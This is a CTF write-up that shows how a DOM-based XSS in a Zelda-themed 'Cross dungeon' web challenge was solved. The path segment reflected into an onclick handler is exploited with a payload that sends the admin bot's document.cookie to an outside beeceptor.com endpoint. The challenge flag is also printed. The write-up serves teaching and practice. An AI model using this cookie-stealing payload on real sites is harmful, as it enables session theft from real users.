





# Cross dungeon

Here is my writeup of the second web challenge of a private CTF. (Challenge by Mizu)

I flag it with an unintended method so you can check this [writeup](https://hippie.cat/post/Writeup/ESAIP-Qualif/Cross-site-dungeon) from Hippie to see the intended method.

Task: The final battle against ganon has started! Ganon is holding the holy cookie, find a way to steal it from him!

## First look

We can see a little welcome page:



We have 2 interesting pages. First we can see the dungeon where we can fight a monster and secondly we can report an url to the administrator.

Let's take a look to the dungeon:



We can use 3 objects, a sword, a potion and a shield we'll use it later.

Now we'll check the report page:



Hum, we can see that the administrator takes a potion while checking our vulnerable page, we'll exploit that.

## Setup the vulnerability

This is a js application and we have to steal cookies so we can suppose that we'll exploit a DOM Based XSS. I let you check my [article](https://0xhorizon.eu/articles/xss-dom-based/) about this vulnerability.

Let's have a look to the code, here is the HTML code for the potion:

```html
<div class="item_attack" style="margin-right: auto;">
    
    <button id="potion" onclick="make_damage('Link', 'Potion', '30')">Potion</button>
</div>
```

Hum, in our url ``/dungeon/30/Link`` there is 'Link' so is the url reflected in JS ?

Let's try with ``/dungeon/30/Booyaaaa``:

```html
<div class="item_attack" style="margin-right: auto;">
    
    <button id="potion" onclick="make_damage('Booyaaaa', 'Potion', '30')">Potion</button>
</div>
```

Yeah! We know that the administrator clicks on the potion so it will execute the JS code in make_damage(). Let's exploit it!

## Exploitation

I wrote a twitter [post](https://twitter.com/Ruulian_/status/1452369937515876356) about something in js which is useful in our case, all parameters of JS functions are evaluated :p

But we are in a string, we just have to close the quote. Our payload will start with ``'``.

Now we are in the JS as we want now, we'll use my little trick and put a ``,``, now we are in the second parameter and we can do what we want!

We'll use a redirect to an endpoint like [Beeceptor](https://beeceptor.com) to get admin cookies, here is our payload now: ``', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie))``.

But if we put this payload it will raise an error because the JS looks like that:

```html
<div class="item_attack" style="margin-right: auto;">
    
    <button id="potion" onclick="make_damage('', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie))', 'Potion', '30')">Potion</button>
</div>
```

We'll finish with a ``,'`` to retrieve the end of the function:

```html
<div class="item_attack" style="margin-right: auto;">
    
    <button id="potion" onclick="make_damage('', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie)), '', 'Potion', '30')">Potion</button>
</div>
```

``make_damage()`` takes 3 arguments but we gave 4, this is not a problem because the ``document.location.replace()`` is evaluated first :p

Let's try if our payload works!

Payload: ``/dungeon/30/',document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie)),')``

## Testing locally

We have to click on potion because we know that the bot does it when checking our url, let's try!



Yeah! Our payload works well!

## Conclusion

We just have to report it to the administrator and get our flag :p



Flag: ``R2Lille{1NN3R_HTML_t0_XSS_3AzYYY}``

Thanks for this cool challenge ^^